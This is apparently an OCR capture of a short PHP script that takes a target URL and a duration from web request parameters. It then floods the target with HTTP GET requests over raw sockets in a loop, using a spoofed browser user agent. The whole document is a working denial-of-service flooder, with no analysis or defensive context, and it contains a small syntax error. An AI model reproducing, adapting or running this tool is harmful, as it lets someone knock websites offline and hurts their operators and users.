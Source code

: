echo 'running';
$secondsToRun = $_GET['time'];
$url = $_GET['url'];
$parsed_url = parse($url);
$host = $parsed_url['host'];
$path = $parsed_url['path'];

if ($path == "")
        $path = "/";

$timeNow = strtotime('now');
$timeToStop = $timeNow + $secondsToRun;

while(1)
{
        $timeNow = strtotime('now');
        if ($timeNow >= $timeToStop))
                break;
                
        $sock = fsockopen($host, 80);
        $pack = "GET $path HTTP/1.1\r\n";
        $pack.= "Host: " .$host. "\r\n";
        $pack.= "User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\n";
        $pack.= "Accept: */*\r\n";
        $pack.= "Accept-Language: en-US,en;q=0.5\r\n";
        $pack.= "Connection: closed\r\n\r\n";
        fputs($sock, $pack);
        fclose($sock);
        //sleep(1);
}

function parse($url){
    if(strpos($url,"://")===false) $url = "http://".$url;
    $info = parse_url($url);
    return $info;
}

